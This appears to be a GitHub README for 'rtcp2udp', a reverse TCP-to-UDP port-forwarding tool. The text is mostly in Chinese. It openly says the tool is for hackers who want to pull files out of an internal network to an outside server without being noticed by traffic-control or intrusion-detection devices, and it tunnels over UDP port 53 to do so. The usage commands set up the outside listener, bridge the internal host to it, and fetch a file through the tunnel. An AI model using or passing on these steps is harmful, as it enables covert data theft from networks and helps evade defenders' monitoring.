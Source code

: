 # rtcp2udp
反向端口转发工具  
Reverse TCP Port to UDP Forwarding Tools  

## 描述
在Hack场景中，Hack人员需要从内网获取指定文件，并向外网传输时，不被流控设备，入侵检测设备所警觉；  
本工具的原理为，向外网服务器建立一个反向的UDP(53)隧道,用于文件传输；  

## 实例图
![](https://github.com/ring04h/rtcp2udp/blob/master/portmap.png?20160429)
外网客户端连接 119.29.29.29 的80端口，等于连接内网 172.168.1.10 服务器的80端口，隧道采用UDP协议传输  

## 使用说明
Http Server  <- 内网机器 -> Internet Server (UDP隧道)
Client -> tcp:119.29.29.29:80 -> udp:119.29.29.29:53 -> tcp:172.168.1.10:80

* 在你的外网服务器监听用于服务的 UDP&TCP 端口
这里假设场景,你的外网服务器 IP 为 119.29.29.29
```shell
[root@localhost ~]# python tcp2udp.py -t 0.0.0.0:80 -u 0.0.0.0:53
[INFO] UDPServer 0.0.0.0:53 Listening Success...
[INFO] TCPServer 0.0.0.0:80 Listening Success...
```
* 在内网机器打通与外网服务器之间的 UDP 隧道
```shell
[root@localhost ~]# python rtcp2udp.py -t 172.168.1.10:80 -u 119.29.29.29:53
[INFO] Client Bridge Connection Success...
```
* 当隧道打通后，就可以开始文件传输服务
```shell
[root@localhost ~]# wget http://119.29.29.29/src/file.tar.gz
```

